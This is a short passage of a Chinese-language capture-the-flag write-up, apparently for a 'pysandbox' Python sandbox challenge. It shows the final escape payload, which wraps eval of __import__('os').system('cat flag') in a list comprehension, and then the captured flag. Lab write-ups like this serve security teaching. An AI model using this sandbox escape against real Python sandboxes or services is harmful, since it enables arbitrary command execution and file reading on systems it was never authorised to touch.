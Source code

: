 **![](img/b21aa11409ba4a36c3cdaa91dfa14b49.png)**

**下面是显示旗帜的最终有效载荷:**

```
**[x for x in [eval("__import__('os').system('cat flag')")]]**
```

**![](img/bce91c408d667937a94dd01a729082a7.png)**

**提交第一个 pysandbox 的标志**

> **标志为:**tw CTF { go _ to _ next _ challenge _ running _ on _ port _ 30002 }****
